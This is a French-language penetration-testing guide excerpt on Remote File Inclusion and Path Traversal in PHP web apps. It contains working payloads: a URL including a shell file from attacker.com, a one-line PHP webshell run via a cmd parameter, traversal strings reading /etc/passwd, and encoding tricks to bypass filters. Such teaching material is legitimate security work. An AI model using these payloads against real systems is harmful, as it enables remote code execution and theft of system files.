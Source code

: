 #### Remote File Inclusion (RFI)

RFI permet d'inclure des fichiers depuis des serveurs distants, offrant souvent une exécution de code directe.

##### Prérequis pour RFI

- `allow_url_include = On` dans la configuration PHP
- Entrée utilisateur non validée dans les fonctions d'inclusion

##### Exploitation

1. **Inclusion basique** :
   ```
   https://example.com/index.php?page=http://attacker.com/shell.txt
   ```

2. **Hébergement d'une webshell** :
   ```php
   <?php
   system($_GET['cmd']);
   ?>
   ```

3. **Exécution via RFI** :
   ```
   https://example.com/index.php?page=http://attacker.com/shell.txt&cmd=id
   ```

#### Path Traversal

Le Path Traversal (ou Directory Traversal) est similaire au LFI mais se concentre sur l'accès aux fichiers plutôt que sur leur inclusion dans l'exécution.

##### Exemples courants

```
# Accès à des fichiers via des paramètres de téléchargement
https://example.com/download?file=../../../etc/passwd

# Via des chemins d'images
https://example.com/images/../../../etc/passwd

# Dans les en-têtes HTTP
Referer: ../../../etc/passwd
```

##### Contournement de filtres

1. **Encodage URL** :
   ```
   %2e%2e%2f = ../
   ```

2. **Double encodage** :
   ```
   %252e%252e%252f = ../
   ```
